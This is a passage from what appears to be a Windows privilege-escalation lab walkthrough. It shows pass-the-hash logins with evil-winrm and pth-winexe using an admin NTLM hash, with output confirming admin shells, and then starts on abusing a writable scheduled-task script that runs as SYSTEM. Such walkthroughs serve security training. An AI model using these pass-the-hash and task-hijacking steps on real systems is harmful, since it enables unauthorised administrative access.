 ![](https://i.imgur.com/ObRZ6uP.png)


- Then `PtH` for the admin user if you like, you can also crack the password if you like


```powershell
❯ evil-winrm -i 10.10.162.79 -u admin -H a9fdfa038c4b75ebc76dc855dd74f0da
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\admin\Documents> whoami
win-qba94kb3iof\admin
```

- You can also `PtH` with the `winexe` binary on linux using the full NTLM hash.


```powershell
❯ pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.151.253 cmd.exe

E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```


## **Scheduled Tasks**


- Look for scripts/contents that might have tasks running

```powershell
C:\PrivEsc>type C:\DevTools\CleanUp.ps1
type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
```


- The above script runs as SYSTEM every minute. 
- Using `accesschk.exe`, note that you have the ability to write to the file:
